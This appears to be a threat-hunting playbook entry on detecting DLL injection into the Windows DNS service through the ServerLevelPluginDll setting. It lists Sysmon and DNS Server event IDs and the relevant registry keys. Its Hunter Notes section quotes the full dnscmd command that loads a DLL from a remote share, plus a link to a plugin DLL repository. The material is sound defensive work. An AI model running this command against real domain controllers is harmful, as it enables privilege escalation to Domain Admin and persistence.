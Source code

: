 # Windows DNS Server dll injection via RPC (DnssrvOperation2)
## Description
The Windows DNS Server management protocol, which is based on RPC, allows
DnsAdmins and higher privileged Users to load arbitary dlls as plugins into the
DNS service

You can find a detailed description
[here](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83).

## Hypothesis
And privileged User (DNSAdmin or higher) may use this technique to escalate
privileges (from DNSAdmin to Domain Admin) and to achive persistance on the
system.
## Events (dnscmd execution)

| Source | EventID | Field | Details | Reference | 
|--------|---------|-------|---------|-----------| 
| Sysmon | 13 | EventType |SetType - TargetObject gets set (see next line) | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| Sysmon | 13 | TargetObject |REGISTRY\MACHINE\SYSTEM\ControlSet001\Services\DNS\Parameters\ServerLevelPluginDll gets set to the dll path | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| Microsoft-Windows-DNSServer | 541 | Data Name="Setting" | serverlevelplugindll (**case insensitive**), parameter as set by the attacker when executing dnscmd | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| Microsoft-Windows-DNSServer | 541 | Data Name="NewValue" | \\192.168.0.149\dll\wtf.dll (**case insensitive**), parameter to the /serverlevelplugindll command as executed by the attacker | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |

## Events (DNS service restarted)
| Source | EventID | Field | Details | Reference | 
|--------|---------|-------|---------|-----------| 
| DNS Server | 771 | | Event gets logged when a dll plugin is loaded by the DNS service |detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| DNS Server | 770 | EventData Name="DNS_EVENT_PLUGIN_DLL_LOAD_OK" | |detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| DNS Server | 770 | Name="param1" \\192.168.0.149\dll\wtf.dll" | | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |

## Events (when loading the dll failed)
| Source | EventID | Field | Details | Reference | 
|--------|---------|-------|---------|-----------| 
| DNS Server | 150 | EventData Name="DNS_EVENT_PLUGIN_INIT_FAILED" | |detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| DNS Server | 150 | Name="param1" \\192.168.0.149\dll\wtf.dll" | | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |

## Hunter Notes
We assume the attacker has a privileged user to reconfigure the DNS service:

The attack has to be executed in two steps:

  1. dnscmd.exe dc1.lab.internal /config /serverlevelplugindll \\192.168.0.149\dll\wtf.dll
    - Whereas the dll has to be as a special DNS server plugin dll.
      ([GitHub 0xdim69](https://github.com/dim0x69/dns-exe-persistance/tree/master/dns-plugindll-vcpp))
    - A registry parameter gets added: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll and set to the value \\\\192.168.0.149\dll\wtf.dll

  2. The DNS service gets restarted
    - The DLL is loaded into dns.exe and the API functions are called.

## Hunting Techniques Recommended

- [x] Grouping
- [x] Searching
- [ ] Clustering
- [ ] Stack Counting
- [ ] Scatter Plots
- [ ] Box Plots
- [ ] Isolation Forests

